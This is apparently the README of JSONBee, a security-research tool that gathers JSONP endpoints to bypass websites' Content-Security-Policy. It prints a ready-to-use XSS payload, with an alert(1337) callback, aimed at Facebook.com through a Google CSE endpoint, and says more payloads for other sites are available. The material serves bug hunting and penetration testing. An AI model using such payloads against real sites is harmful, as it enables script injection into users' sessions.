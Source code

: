 
##
#
https://github.com/zigoo0/JSONBee
#
https://github.com/kapytein/jsonp
#
https://github.com/camsong/fetch-jsonp
#





# JSONBee
A ready to use JSONP endpoints to help bypass content security policy of different websites.

The tool was presented during HackIT 2018 in Kiev. The presentation can be found here (not sure why format of the slides is screwed :D): https://www.slideshare.net/Hacken_Ecosystem/ebrahem-hegazy-bug-hunters-manual-for-bypassing-contentsecuritypolicy

# What is JSONBee?

The main idea behind this tool is to find the JSONP endpoint(s) that would help you bypass content security policy for your target website in an automated way. JSONBee takes an input of a url name (i.e. https://www.facebook.com), parses the CSP (Content-Security-Policy), and automatically suggest the XSS payload that would bypass the CSP. It mainly focuses on JSONP endpoints gathered during my bug bounty hunting activities, and could be used to bypass the CSP.

JSONBee relies on 3 methods to gather the JSONP endpoints:
* The repository within this project;
* Google dorks;
* Internet archive (archive.org).

The tool is not yet fully completed as I'm still adding some validations and features too. However, the repository will be hosted here so that anyone can use it till the tool is ready.

The repo contains ready-to-use payloads that can bypass CSP for Facebook.com, Google.com and more.

**Bypasing Facebook.com Content-Security policy:**

Facebook.com allows *.google.com in its CSP policy (script-src directive), thus, below payload would work like a charm to execute JavaScript on Facebook.com:
`"><script+src="https://cse.google.com/api/007627024705277327428/cse/r3vs7b0fcli/queries/js?callback=alert(1337)"></script>`

If you came across a website that trusts any of the domains in jsonp.txt file in its script-src directive, then pickup a payload  that matches the domain and have fun :)

# How can you help?
You are all welcome to contribute by adding links to sites that uses JSONP endpoins/callbacks to make the repo bigger and more usefull for bug hunters, pentesters, and security researchers.



